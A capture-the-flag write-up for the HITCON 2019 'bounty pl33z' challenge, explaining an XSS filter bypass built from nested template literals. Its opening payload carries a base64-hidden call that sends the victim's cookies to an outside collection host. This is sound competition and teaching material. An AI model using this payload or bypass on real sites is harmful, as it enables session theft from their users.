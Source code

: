 2019 Hitcon CTF quals - bounty pl33z
====================================

https://ctf2019.hitcon.org/

Writeup by Tamás Hegedűs - !SpamAndHex


TL;DR
-----

Submitted an XSS that directly sent the cookie back to us.

```
http://3.114.5.202/fd.php?q=`,"%26%26eval(atob(`Imh0dHBzOi8vcmVxdWVzdGJ1Y2tldC5hcHBzcG90LmNvbS95P2M9IitlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKQ`));(`${`
```


The challenge
-------------

It looks like there is some sso involved in the challenge, they even made me
read `@filedescriptor`s talk about xss+cookiebomb+oauth at
https://speakerdeck.com/filedescriptor/the-cookie-monster-in-your-browsers
.

Then I realized there are no real domains and services so started focusing on
the XSS part.

Certain chars like `'./\` were sanitized. Backticks and a single `"` was
allowed. That was enough to craft a payload that did the leak and resulted in
valid JavaScript. We used nested multiple template literals. The resulting JS
looked something like this after interpolation:

```
if (window.top == window.self) {
    windowhref = "https://aaa`,",atob(`aHR0cDovL2dvb2dsZS5jb20`);(`${`.orange.ctf/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361";
} else {
    var data = JSON.stringify({
        message: 'CTF.API.remote',
        data: {
            location: "https://`,",atob(`aHR0cDovL2dvb2dsZS5jb20`);(`${`.orange.ctf/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361"
        }
    });
    window.parent.postMessage(
        data, 
        "https://bbb`,",atob(`aHR0cDovL2dvb2dsZS5jb20`);(`${`.orange.ctf"
    );
} 
```

